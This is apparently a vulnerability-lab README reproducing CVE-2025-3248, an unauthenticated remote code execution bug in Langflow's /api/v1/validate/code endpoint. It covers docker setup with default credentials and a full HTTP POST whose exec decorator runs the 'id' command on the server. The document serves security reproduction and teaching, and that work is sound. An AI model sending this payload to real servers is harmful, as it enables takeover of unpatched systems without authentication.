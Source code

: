 # Langflow `validate/code` API Pre-Auth Remote Code Execution (CVE-2025-3248)

[中文版说明](README.zh-cn.md)

Langflow is a popular open-source tool for building agentic AI workflows, providing a Python-based web interface to visually construct AI-driven agents and pipelines.

A critical unauthenticated remote code execution vulnerability (CVE-2025-3248) exists in Langflow prior to version 1.3.0. An vulnerable endpoint (`/api/v1/validate/code`) attempts to validate user-submitted Python code by parsing it with the `ast` module and executing any function definitions using `exec`. However, Python decorators and default argument expressions are also executed at function definition time, making it possible to inject arbitrary code via these features.

Attackers can exploit this issue by sending a specially crafted function definition with a malicious decorator or default argument, resulting in code execution as the server user.

References:

- <https://horizon3.ai/attack-research/disclosures/unsafe-at-any-speed-abusing-python-exec-for-unauth-rce-in-langflow-ai/>
- <https://github.com/langflow-ai/langflow/releases/tag/1.3.0>
- <https://github.com/langflow-ai/langflow/pull/6911>

## Environment Setup

Execute the following command to start a Langflow 1.2.0 server:

```
docker compose up -d
```

After the server starts, the Langflow web interface will be available at `http://your-ip:7860`. You can login with the default credentials `administrator:vulhub`.

## Vulnerability Reproduction

To reproduce the vulnerability, you can send a POST request to the `/api/v1/validate/code` endpoint with a malicious Python function definition. For example, the following payload will execute `id` command on the server using a decorator:

```
POST /api/v1/validate/code HTTP/1.1
Host: your-ip:7860
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/json
Content-Length: 105

{"code": "@exec(\"raise Exception(__import__('subprocess').check_output(['id']))\")\ndef foo():\n  pass"}
```

![](1.png)
